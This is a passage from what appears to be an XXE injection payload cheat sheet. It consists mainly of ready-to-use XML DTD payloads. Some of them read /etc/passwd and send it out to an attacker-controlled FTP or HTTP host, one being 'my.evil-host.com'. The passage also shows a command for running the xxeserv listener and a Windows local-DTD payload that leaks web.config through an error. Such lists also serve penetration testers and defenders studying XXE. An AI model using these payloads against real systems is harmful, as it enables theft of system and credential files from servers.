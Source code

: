 Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file.
Instead we build the document once and then change the DTD.
And using FTP instead of HTTP allows to retrieve much larger files.

`xxe.dtd`

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://x.x.x.x:2121/%d;'>"> 
```

Serve DTD and receive FTP payload using [xxeserv](https://github.com/staaldraad/xxeserv):

```
$ xxeserv -o files.log -p 2121 -w -wd public -wp 8000
```

### XXE inside DTD file

Most XXE payloads detailed above require control over both the DTD or `DOCTYPE` block as well as the `xml` file.
In rare situations, you may only control the DTD file and won't be able to modify the `xml` file. For example, a MITM.
When all you control is the DTD file, and you do not control the `xml` file, XXE may still be possible with this payload.

```xml
<!-- Load the contents of a sensitive file into a variable -->
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!-- Use that variable to construct an HTTP get request with the file contents in the URL -->
<!ENTITY % param1 '<!ENTITY &#37; external SYSTEM "http://my.evil-host.com/x=%payload;">'>
%param1;
%external;
```


## Windows Local DTD and Side Channel Leak to disclose HTTP response/file contents

From https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79

### Disclose local file

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>cacat</xxx>
```

